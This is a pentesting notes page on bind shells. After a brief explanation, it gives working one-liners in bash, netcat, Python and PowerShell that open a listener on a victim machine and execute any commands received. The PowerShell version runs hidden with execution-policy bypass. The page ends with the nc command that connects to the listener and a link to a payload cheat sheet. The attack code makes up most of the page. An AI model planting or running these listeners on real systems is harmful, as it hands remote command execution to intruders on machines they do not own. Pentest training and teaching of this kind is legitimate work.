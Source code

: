 ```yaml
---
title: Bind Shells
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
  - bind shells
---
```


# Bind shells

In a bind-shell the attacking machine initiates a connection to a listener port on the victim's machine. 

**First step** in this attack is initiating the listening connection on port '1234' on the remote host (the victim's), with IP '0.0.0.0' so that we can connect to it from anywhere.


## Bind shell connections

### bash

```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

### netcat

```shell-session
nc -lvp 1234 -e /bin/bash
```

###  python

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

### powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

**Second step**:  If we have succeeded in previous step, we have a shell waiting for us on the specified port (1234) in the victim's machine. Now, let's  connect to it from our attacking machine:

```shell-session
 nc 10.10.10.1 1234
 # 10.10.10.1 would be the victim's machine
 # 1234 would be the listening port on victim's machine
 ```

Unlike a Reverse Shell, if we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately. However, if the bind shell command is stopped for any reason, or if the remote host is rebooted, we would still lose our access to the remote host and will have to exploit it again to gain access.


## Some more resources

| Reverse shell | Link to resource |
| ------------- | ---------------- |
| PayloadsAllTheThings | [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md)) |
